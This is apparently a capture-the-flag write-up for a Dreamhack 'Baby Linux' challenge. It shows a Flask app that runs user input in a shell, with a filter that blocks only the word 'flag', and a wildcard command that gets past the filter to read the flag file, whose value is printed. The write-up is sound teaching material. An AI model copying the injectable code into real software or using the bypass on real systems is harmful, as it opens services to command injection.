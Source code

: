 # HACKING_2
## <https://dreamhack.io/wargame/challenges/837>
<br/>
<br/>
Baby Linux. Can you tell some signigicant Linux commands? Let's see what's in Linux.
<br/>
<br/>

```
ls -l
```

<br/>
<br/>
Few files exist, and one file catch my eyes.
<br/>
<br/>

```
... Apr 21 2023 hint.txt...
```

<br/>
<br/>
What's inside the hint file?
<br/>
<br/>

```
cat hint.txt
```

<br/>
<br/>
'Where is Flag? ./dream/hack/hello' is output. Now we got the Flag.txt's location. Anyway, let's see the attached file.
<br/>
<br/>

```
#!/usr/bin/env python3
import subprocess
from flask import Flask, request, render_template

APP = Flask(__name__)

@APP.route('/', methods=['GET', 'POST'])
def index():
    if request.method == 'POST':
        user_input = request.form.get('user_input')
        cmd = f'echo $({user_input})'
        if 'flag' in cmd:
            return render_template('index.html', result='No!')

        try:
            output = subprocess.check_output(['/bin/sh', '-c', cmd], timeout=5)
            return render_template('index.html', result=output.decode('utf-8'))
        except subprocess.TimeoutExpired:
            return render_template('index.html', result='Timeout')
        except subprocess.CalledProcessError:
            return render_template('index.html', result='Error')

    return render_template('index.html')

if __name__ == '__main__':
    APP.run(host='0.0.0.0', port=8000)
```

<br/>
<br/>
HTTP client and server communication method, 'GET' and 'POST'. "user_input = request.form.get('user_input')", "cmd = f'echo $({user_input})'" code take user's input commands. but next line makes us confusing.
<br/>
<br/>

```
if 'flag' in cmd:
            return render_template('index.html', result='No!')
```

<br/>
<br/>
We cannot use string 'flag' to our commands. How can we access to flag file?
<br/>
<br/>

```
cat ./dream/hack/hello/fla*
```

<br/>
<br/>
By using 'wild card' we can bypass. DH{671ce26c70829e716fae26c7c71a33823feb479f2562891f64605bf68f60ae54}. Or we can also use this command.
<br/>
<br/>

```
grep "DH" ./dream/hack/hello/*
```
